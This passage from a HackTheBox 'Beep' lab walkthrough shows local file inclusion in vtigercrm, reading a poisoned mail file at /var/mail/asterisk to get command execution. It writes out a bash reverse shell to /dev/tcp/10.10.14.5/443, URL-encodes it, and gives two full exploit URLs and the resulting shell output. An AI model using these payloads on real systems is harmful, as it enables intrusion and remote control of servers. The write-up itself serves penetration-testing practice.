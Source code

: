 
After sent a mail, I using LFI go to asterisk's mail file at `/var/mail/asterisk`

![](images/7.png)

Get reverse shell

Url encode using `hURL` to encode payload.

```
┌──(Hades㉿10.10.14.5)-[2.1:30.7]~/walkthrough/hackthebox/beep
└─$ hURL -U "bash -c 'bash -i >& /dev/tcp/10.10.14.5/443 0>&1'"

Original    :: bash -c 'bash -i >& /dev/tcp/10.10.14.5/443 0>&1'
URL ENcoded :: bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.5%2F443%200%3E%261%27
```

Execute bash reverse shell.

```
view-source:https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../../../../..//var/mail/asterisk%00&module=Accounts&action&cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.5%2F443%200%3E%261%27
```

```
view-source:https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../..//var/mail/asterisk%00&cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.5%2F443%200%3E%261%27
```

Listener in Kali machine

```
┌──(Hades㉿10.10.14.5)-[2.1:30.6]~/walkthrough/hackthebox/beep
└─$ sudo nc -nvlp 443                                          
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.7] 53748
bash: no job control in this shell
bash-3.2$ id
uid=100(asterisk) gid=101(asterisk) groups=101(asterisk)
bash-3.2$ 
```

### FreePBX / Elastix RCE

I used exploit `php/webapps/18650.py` found when I enum Elastix.
